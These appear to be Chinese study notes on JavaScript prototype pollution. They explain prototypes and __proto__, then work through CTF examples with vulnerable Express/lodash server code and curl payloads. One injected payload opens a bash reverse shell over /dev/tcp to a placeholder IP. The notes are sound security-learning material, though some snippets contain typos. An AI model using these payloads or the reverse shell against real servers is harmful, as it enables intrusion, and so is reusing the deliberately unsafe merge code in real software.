







# Prototype Pollution Attack

## JavaScript中的对象
### 建立对象
JavaScript中 建立对象有两种形式

- 构造函数创建
```
function student(){
    this.name = "Yuyan Peng";
    this.test = function(){
        return 2333;
    }
}
student.prototype.a=3;
stu = new student();
console.log(stu.test());
console.log(stu.a);
```

- 通过Object创建
```
var a = new Object();
a.c=3
console.log(a.c)
```

对于使用过基于类的语言 (如 Java 或 C++) 的开发人员来说，JavaScript 有点令人困惑，因为它是动态的，并且本身不提供一个 class 实现。（在 ES2015/ES6 中引入了 class 关键字，但那只是语法糖，JavaScript 仍然是基于原型的）。 之前我们所认为的类在js中都是用函数来声明的 （事实上js不承认类 只是有相应的概念而已 下面为了说明方便 都沿用类的说法） 举个栗子
```
function test（）{
    this.a = "joy";
}

b = new test;
console.log(b.a);
```
从上面可以看到 实例化对象b后就可以输出test类的属性a了 我们其实很容易想到构造函数 构造函数就是在new一个对象的时候被调用 在这其实就是js的一个重要概念——继承，继承的整个对应关系就是这个对象的原型链 所以 ``test()函数就是类test的构造函数``

上面没问题我们继续：

### prototype和__proto__

一个类中必定有一些方法比如说属性this.age 把方法定义在构造函数内部：
```
function student(){
    this.age=19;
    this.show=function(){
        console.log(this.age)
        }
    }

(new student).show();
```
再一次看到 new一个对象就会继承到它的属性 在新开辟的存储空间就已经存放有对应的属性了 

但这样写有一个问题 每当我需要创建一个student对象的时候this.show = function{...}就会执行一次 这个show方法是绑定在对象上的 而不是绑定在“类”上的


- [x] prototype
用原型prototype实现
```
function Student(){
    this.age=19;
}

Student.prototype.show = function show(){console.log(this.age)}

var stu = new Student;
stu.show();
```
prototype是类Student的一个属性 所有类对象在实例化后都具有和prototype中的变量、属性和方法 同时只有类才有prototype属性，但是类``实例化出来的对象``却没有prototype 不能通过prototype访问实例化对象的原型

- [x] \_\_proto\_\_
就上例而言 我们可以通过Student.prototype访问Student类的原型 但是实例化后的对象stu是不能通过prototype访问原型的 这时候我们使用\_\_proto\_\_来访问实例化对象的原型 stu.\_\_proto\_\_==Student.prototype看到二者是等价的

==在Java.Script中 万物皆对象==
所有的变量，函数，数组，对象都始于Object的原型即Object.prototype  对象的\_\_proto\_\_和类的prototype相对应

特别的 函数也可以使用\_\_proto\_\_因为函数也是对象 后面给予说明



### 原型链
在javascript中 每个对象的都有一个指向他的原型(prototype)的内部链接 这个原型对象又有它自己的原型，直到null为止

```
function Pt(){
    this.b = "I don't know what I'm up to."
}

Pt.prototype;

var ppt = new Pt;
ppt.__proto__;
ppt.__proto__.__proto__;

```
可以看出原型链为ppt->Pt.prototype->Object.prototype->null

数组

原型链c->array.prototype->Object.prototype->null
函数

原型链d->function.prototype->Object.prototype->null

可见 js中一切皆对象 一切都始于Object.prototype

总结一下：
- prototype是类的属性 所有类对象实例化都会从prototype继承属性和方法
- 一个对象的\_\_proto__属性指向这个实例化这个对象的类的prototype属性

``instanceof运算符``，它可以用来判断某个构造函数的prototype属性是否存在另外一个要检测对象的原型链，下面是instanceof运算符的一个实例

```
function Pt(){}
function Ob(){}

var ppt = new Pt;
console.info(ppt instanceof Pt)//true //ppt.__proto__===Pt.prototype
console.info(ppt instanceof ob)//false 因为对象ppt的原型不是Ob
```
上面说到函数也是一个对象
```
function hello(){
    this.test = function(){
        console.log("hello world");
    }
    return 2333;
    }

var lib = new hello;
lib.test();

console.log(hello instanceof Object)//ture 得证
```

### 原型链的变量搜索
来看一个例子
```
function G(){
    this.a = 'abc';
    this.b = '123';
}

G.prototype.c = "789";

function I(){
    this.a = "abc";
    this.b = "123";
}

var j = new I;
console.log(j.c);
I.prototype.c = "789";
```

能看出什么

先于对象I中添加属性c 在对象j中也有了c属性

当要使用或输出一个变量时：首先会在本层中搜索相应的变量，如果不存在的话，就会向上搜索，即在自己的父类中搜索，当父类中也没有时，就会向祖父类搜索，直到指向null，如果此时还没有搜索到，就会返回 undefined

那么此时的原型链就是j->I.prototype->Object.prototype->null

所以此时对象j调用c属性时 本层没有 向上搜索 在上一层找到了c属性 尽管它不属于对象I而属于对象G❗

js的这个查找机制 就是运用在面向对象的继承中 称作prototype继承链

⭐说到这里再一次总结如下
- 每个构造函数(constructor)都有一个原型对象(prototype)
- 对象的\_\_proto__属性，指向类的原型对象prototype
- JavaScript使用prototype链实现继承机制

### 原型链污染
下面我们来看

```
var Student = {age:19}

console.log(Student.age)

Student.__proto__.age = 20

console.log(Student.age)

var Teacher = {}

console.log(Teacher.age)
```



原型链：Student.\_\_proto\_\_->Object.prototype->null

随着上面的逐步探讨 原型链污染及其产生的漏洞也就呼之欲出了 我们通过控制父类甚至祖类的属性(修改这个对象的原型)就可以影响来自同一个类、父祖类的对象 这就是原型链污染

看一个例子
```
//First.a或者First['a']对数组元素的访问 
1.
var First = Array();
First['aa'] = "aaa";
First['bb'] = "bbb";
First.aa
First.bb

2.   
var Second = {"c":"ccc","d":"ddd"}
typeof Second;
Second.c
Second['c']
```
上面的prototype是一样的
看一组 Second.\_\_proto\_\_==Second["\_\_proto\_\_"]=Object.prototype

所以说，原型链污染一般会出现在对象、或数组的键名或属性名可控,而且是赋值语句的情况下 下面是个失败案例

```
function merge(target, source){ 
    for (let key in source){ 
        if (key in source && key in target){
            merge(target[key], source[key]) 
        } else {
                target[key] = source[key] 
        } 
     } 
} 
```
试一下
```
let o1 = {} 
let o2 = {a: 1,"__proto__": {b: 2}} 
merge(o1, o2) 
console.log(o1.a, o1.b) 
o3 = {} 
console.log(o3.b)
```

哑火了，payload并没有达到我们的预期，用JavaScript创建o2的过程（let o2 = {a: 1, "\_\_proto\_\_": {b: 2}}）中，\_\_proto\_\_已经代表o2的原型了，我们的键值相当于自定义了一个原型对象，没法在新的对象中添加\_\_proto\_\_键值，此时遍历o2的所有键名，拿到的只是[a, b]，\_\_proto\_\_并不是一个key，自然也不会修改Object的原型。

那么，如何让\_\_proto\_\_被认为是一个键名呢？用JSON解析一下键值对(JSON.parse 会把一个json字符串 转化为 javascript的object)，将代码改成如下：

```
let o1 = {} 
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}') //?数组元素双引号
merge(o1, o2) 
console.log(o1.a, o1.b) 
o3 = {} 
console.log(o3.b)
```

可见，新建的o3对象，也存在b属性，说明Object已经被污染，因为JSON解析下，\_\_proto\_\_会被认为是一个真正的“键名”，而不代表“原型”，所以在遍o2时会存在这个键

merge操作时最常见的可能控制键名的操作，也最能被原型链攻击，很多常见的库都存在这个问题

有哪些情况原型链会被污染？哪些情况原型链能被修改呢？哪些情况下我们可以设置\_\_proto\_\_的值呢？
其实找找能够控制数组（对象）的“键名”的操作即可：    

- 对象merge
- 对象clone（其实内核就是将待操作的对象merge到一个空对象中）



### 例题

#### hackit 2018

```
'use strict';
 
const express = require('express');
const bodyParser = require('body-parser')
const cookieParser = require('cookie-parser');
const path = require('path');
 
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
 
function merge(a, b) {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
 
function clone(a) {
    return merge({}, a);
}
 
// Constants
const PORT = 8080;
const HOST = '0.0.0.0';
const admin = {};
 
// App
const app = express();
app.use(bodyParser.json())
app.use(cookieParser());
 
app.use('/', express.static(path.join(__dirname, 'views')));
app.post('/signup', (req, res) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    if (copybody.name) {
        res.cookie('name', copybody.name).json({
            "done": "cookie set"
        });
    } else {
        res.json({
            "error": "cookie not set"
        })
    }
});
app.get('/getFlag', (req, res) => {
    var аdmin = JSON.parse(JSON.stringify(req.cookies))
    if (admin.аdmin == 1) {
        res.send("hackim19{}");
    } else {
        res.send("You are not authorized");
    }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

payload
```
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'; 

curl -vv 'http://0.0.0.0:4000/getFlag'
```
首先请求 /signup 接口，在 NodeJS 服务中，我们调用了有漏洞的 merge 方法，并通过 \_\_proto\_\_ 为 Object.prototype（因为 {}.\_\_proto\_\_ === Object.prototype） 添加上一个新的属性 admin，且值为 1。

再次请求 getFlag 接口，条件语句 admin.аdmin == 1 为 true，服务被攻击。

攻击案例出自：Prototype pollution attacks in NodeJS applications

这样的漏洞在 jQuery $.extend 中也经常见到
对于 jQuery：如果担心安全问题，建议升级至最新版本 jQuery 3.4.0，如果还在使用 jQuery 的 1.x 和 2.x 版本，那么你的应用程序和网站仍有可能遭受攻击。


#### 登录绕过题
{"user":[0],"passwd":[0]}




这题可以控制host参数去篡改mysql的连接地址 利用mysql客户端任意文件读取 https://blog.csdn.net/ls1120704214/article/details/88174003

但是如果直接在json中传递{“host”:””},根本不会有任何效果
在57行
``if (body.host != undefined) {``
如果发现有直接传递进来的host参数，nodejs就报错退出，所以，通过仔细观察源代码，发现这个代码有参数污染问题，所以就可以通过构造如下参数去改变host参数，把host参数变成我们自己mysql服务器的地址
原题作者博客https://xz.aliyun.com/t/6991

不用host参数篡改mysql地址 还可以利用原型链污染：
``{"user":"test","passwd":"test","__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx.xxx.xxx.xx/6666 0>&1\"');var __tmp2"}}``


Code-Breaking Thejs
```
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')

const app = express()
app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json()) //处理JSON数据
app.use('/static', express.static('static'))
app.use(session({
    name: 'thejs.session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false     //设置一下Session
}))
app.engine('ejs', function (filePath, options, callback) { // define the template engine
    fs.readFile(filePath, (err, content) => {
        if (err) return callback(new Error(err)) //调用ejs进行渲染
        let compiled = lodash.template(content) //渲染内容
        let rendered = compiled({...options}) //动态引入成员变量

​    return callback(null, rendered) //传回来
})

})
app.set('views', './views')
app.set('view engine', 'ejs')

app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body)
        req.session.data = data
    }    //将body中的数据传入sessioN中
    

res.render('index', {
    language: data.language, 
    category: data.category //渲染自己的选择
})

})

app.listen(3000, () => console.log(Example app listening on port 3000!))
```


```
const express = require('express')
var hbs = require('hbs');
var bodyParser = require('body-parser');
const md5 = require('md5');
var morganBody = require('morgan-body');
const app = express();
var user = []; //empty for now

var matrix = [];
for (var i = 0; i < 3; i++){
    matrix[i] = [null , null, null];
}

function draw(mat) {
    var count = 0;
    for (var i = 0; i < 3; i++){
        for (var j = 0; j < 3; j++){
            if (matrix[i][j] !== null){
                count += 1;
            }
        }
    }
    return count === 9;
}

app.use(express.static('public'));
app.use(bodyParser.json());
app.set('view engine', 'html');
morganBody(app);
app.engine('html', require('hbs').__express);

app.get('/', (req, res) => {

    for (var i = 0; i < 3; i++){
        matrix[i] = [null , null, null];

    }
    res.render('index');
})


app.get('/admin', (req, res) => { 
    /*this is under development I guess ??*/
    console.log(user.admintoken);
    if(user.admintoken && req.query.querytoken && md5(user.admintoken) === req.query.querytoken){
        res.send('Hey admin your flag is <b>flag{prototype_pollution_is_very_dangerous}</b>');
    } 
    else {
        res.status(403).send('Forbidden');
    }    
}
)


app.post('/api', (req, res) => {
    var client = req.body;
    var winner = null;

    if (client.row > 3 || client.col > 3){
        client.row %= 3;
        client.col %= 3;
    }
    matrix[client.row][client.col] = client.data;
    for(var i = 0; i < 3; i++){
        if (matrix[i][0] === matrix[i][1] && matrix[i][1] === matrix[i][2] ){
            if (matrix[i][0] === 'X') {
                winner = 1;
            }
            else if(matrix[i][0] === 'O') {
                winner = 2;
            }
        }
        if (matrix[0][i] === matrix[1][i] && matrix[1][i] === matrix[2][i]){
            if (matrix[0][i] === 'X') {
                winner = 1;
            }
            else if(matrix[0][i] === 'O') {
                winner = 2;
            }
        }
    }

    if (matrix[0][0] === matrix[1][1] && matrix[1][1] === matrix[2][2] && matrix[0][0] === 'X'){
        winner = 1;
    }
    if (matrix[0][0] === matrix[1][1] && matrix[1][1] === matrix[2][2] && matrix[0][0] === 'O'){
        winner = 2;
    } 

    if (matrix[0][2] === matrix[1][1] && matrix[1][1] === matrix[2][0] && matrix[2][0] === 'X'){
        winner = 1;
    }
    if (matrix[0][2] === matrix[1][1] && matrix[1][1] === matrix[2][0] && matrix[2][0] === 'O'){
        winner = 2;
    }

    if (draw(matrix) && winner === null){
        res.send(JSON.stringify({winner: 0}))
    }
    else if (winner !== null) {
        res.send(JSON.stringify({winner: winner}))
    }
    else {
        res.send(JSON.stringify({winner: -1}))
    }

})
app.listen(3000, () => {
    console.log('app listening on port 3000!')
})
```

首先判断请求方式是POST，然后进行下一步，通过lodash.merge，将我们body中的数值给data,然后session中储存这个data，这里也大概跟了一下lodash.merge，其原理应该就是正常的merge。

赋值完了之后进行渲染index,在渲染的适合，会跳到下面这个函数
```
app.engine('ejs', function (filePath, options, callback) { // define the template engine
    fs.readFile(filePath, (err, content) => {
        if (err) return callback(new Error(err))
  	let compiled = lodash.template(content)
    let rendered = compiled({...options})

    return callback(null, rendered)
})
})
```